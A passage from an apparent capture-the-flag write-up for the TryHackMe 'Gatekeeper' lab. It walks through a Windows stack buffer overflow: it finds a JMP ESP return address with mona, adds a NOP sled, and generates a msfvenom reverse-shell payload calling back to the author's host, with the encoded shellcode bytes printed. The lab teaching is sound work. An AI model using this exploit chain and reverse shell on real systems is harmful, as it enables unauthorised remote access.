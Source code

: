 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a17.png)

This time we see `unmodified`, which means we found all the bad characters!

- Next, we need to find a return address (JMP ESP):

```
!mona jmp -r esp
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a18.png)

- Found 2 JMP ESP addresses: `080414C3` and `080416BF`.

I'll use the `080414C3` address.

**Let's add that address to our python script:**
```py
payload = b'A' * offset + b'\xC3\x14\x04\x08'
```

> Note: The address is reversed because of little-endian format.

- Add 32 NOP sleds:

```py
nop = b'\x90' * 32
```

- Generate shellcode via `msfvenom`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.183.141 LPORT=443 EXITFUNC=thread -f python -v shellcode -b '\x00\x0a'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1965 bytes
shellcode =  b""
shellcode += b"\xba\x7d\x49\x17\x10\xdb\xd8\xd9\x74\x24\xf4"
shellcode += b"\x58\x29\xc9\xb1\x52\x31\x50\x12\x83\xc0\x04"
shellcode += b"\x03\x2d\x47\xf5\xe5\x31\xbf\x7b\x05\xc9\x40"
shellcode += b"\x1c\x8f\x2c\x71\x1c\xeb\x25\x22\xac\x7f\x6b"
shellcode += b"\xcf\x47\x2d\x9f\x44\x25\xfa\x90\xed\x80\xdc"
```